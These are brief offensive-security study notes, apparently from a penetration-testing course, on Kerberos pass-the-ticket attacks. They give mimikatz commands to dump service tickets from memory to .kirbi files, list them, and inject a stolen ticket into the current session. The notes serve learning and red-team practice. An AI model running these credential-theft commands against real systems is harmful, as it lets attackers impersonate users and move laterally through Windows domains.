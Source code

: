 TGS can be exported and reused across systems
abuse TGS

exporting kerberos TGS to disk
```
privilege::debug
sekurlsa::tickets /export
exit
```

listing exported TGSs
```
dir *.kirbi
```

injecting the selected TGS into process memory
```
kerberos::ptt kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```